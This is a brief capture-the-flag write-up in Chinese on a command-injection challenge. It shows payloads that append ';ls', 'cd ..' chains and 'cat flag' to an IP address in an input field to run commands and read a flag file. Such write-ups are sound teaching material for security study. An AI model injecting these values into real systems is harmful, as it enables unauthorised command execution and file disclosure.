


知识点：

1. 命令执行

2.  ;管道符的使用


1. paylaod:

```javascript
127.0.0.1;ls
```




确定存在命令执行


2. 寻找flag

```javascript
127.0.0.1;cd ..;cd ..;cd ..;ls
```





payload:

```javascript
127.0.0.1;cd ..;cd ..;cd ..;cat flag
```


也可以：

```javascript
127.0.0.1;cd ..;cat ../../../../flag
```

